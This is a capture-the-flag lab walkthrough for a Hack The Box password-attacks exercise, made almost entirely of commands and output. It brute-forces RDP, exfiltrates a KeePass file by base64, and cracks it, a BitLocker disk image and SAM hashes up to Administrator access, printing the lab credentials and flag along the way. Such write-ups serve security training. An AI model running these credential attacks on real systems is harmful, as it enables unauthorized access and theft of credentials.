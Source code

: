 # Password Attacks Lab - Hard

The next host is a Windows-based client. As with the previous assessments, our client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. While our colleagues were busy with other hosts on the network, we found out that the user `Johanna` is present on many hosts. However, we have not yet been able to determine the exact purpose or reason for this.

## Walkthrough

```bash
nmap -A -T4 10.129.202.222
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind?
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

we found out that the user `Johanna` is present on many hosts.

<pre class="language-bash"><code class="lang-bash"><strong>#we use crowbar because it seems faster than hydra for rdp
</strong><strong>crowbar -b rdp -s 10.129.202.222/32 -u johanna -C mut_password.list
</strong>2024-02-22 03:16:00 RDP-SUCCESS : 10.129.202.222:3389 - johanna:1231234!
#that took 15min XD
#quick check the smb share with johanna creds
smbclient -L //10.129.202.222 -U johanna%1231234!
#        Sharename       Type      Comment
#        ---------       ----      -------
#        ADMIN$          Disk      Remote Admin
#        C$              Disk      Default share
#        david           Disk      
#        IPC$            IPC       Remote IPC
smbclient //10.129.202.222/david -U johanna%1231234!
ls
NT_STATUS_ACCESS_DENIED listing \*
#unluck
</code></pre>

now lets rdp with johanna creds

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">xfreerdp /v:10.129.202.222 /u:johanna /p:'1231234!' /cert-ignore /dynamic-resolution
#we found C:\Users\johanna\Documents\Logins.kdbx
<strong>#lets tranfer it, first i try the classic impacket-smbserver but its not allowed
</strong><strong>#so we try to transfer via base64
</strong>#on powershell
[Convert]::ToBase64String((Get-Content -path "C:\Users\johanna\Documents\Logins.kdbx" -Encoding byte))
HASH
#on kali
echo 'HASH' | base64 -d > hosts
</code></pre>

now lets crack it using john

```bash
keepass2john Logins.kdbx > Logins.hash
john --wordlist=mut_password.list Logins.hash 
#Qwerty7!         (Logins)     
```

lets check it now

```bash
#after login we get david:gRzX7YbeTcDG7
smbclient -L //10.129.202.222 -U david%gRzX7YbeTcDG7
#        david           Disk    
#add -t 3600 (timeout) because the file transfered is huge
smbclient -t 3600 //10.129.202.222/david -U david%gRzX7YbeTcDG7 
smb: \> ls
#  .                                   D        0  Fri Feb 11 05:43:03 2022
#  ..                                  D        0  Fri Feb 11 05:43:03 2022
#  Backup.vhd                          A 136315392  Fri Feb 11 07:16:12 2022
get Backup.vhd
getting file \Backup.vhd of size 136315392 as Backup.vhd (120.2 KiloBytes/sec) (average 120.2 KiloBytes/sec)
#this takes me forever man, hope future me find a faster way to do this
```

now to do with this file

```bash
#https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0
sudo modprobe nbd
sudo qemu-nbd -c /dev/nbd0 -f vpc Backup.vhd
sudo cryptsetup bitlkOpen /dev/nbd0p2 PasswordHard
Enter passphrase for /dev/nbd0p2: 
#we dont know, so lets use john to crack the passphrase
sudo bitlocker2john -i /dev/nbd0 > Backup.hash
john --wordlist=mut_password.list Backup.hash
#123456789!       (?)     
#123456789!       (?) 
sudo cryptsetup bitlkOpen /dev/nbd0p2 PasswordHard
Enter passphrase for /dev/nbd0p2:123456789!
sudo mkdir /mnt/hardlab 
sudo mount /dev/mapper/PasswordHard /mnt/hardlab
```

now lets check inside

```bash
cd /mnt/hardlab
ls
#'$RECYCLE.BIN'   SAM   SYSTEM  'System Volume Information'
#use secretsdump to dump the hashes
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
```

lets crack it with john

```bash
vim sam.hash
john --format=nt --wordlist=mut_password.list sam.hash 
#                 (Guest)     
#1231234!         (johanna)     
#Liverp00l8!      (Administrator)    
```

lets rdp as administrator

```bash
xfreerdp /v:10.129.202.222 /u:Administrator /p:'Liverp00l8!' /cert-ignore /dynamic-resolution
HTB{PWcr4ck1ngokokok}
```
